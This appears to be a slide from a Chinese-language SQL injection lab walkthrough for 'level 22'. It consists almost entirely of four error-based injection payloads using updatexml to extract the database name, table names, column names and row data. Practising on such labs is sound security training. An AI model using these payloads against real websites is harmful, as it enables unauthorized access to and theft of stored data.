

# 二十二关
这一题和前面做法一致，只是符号的区别

判断库名：admin "and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) and "1"="1

判断表名： "and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1) and "1"="1

判断列名： "and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1) and "1"="1

判断数据： "and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1)and "1"="1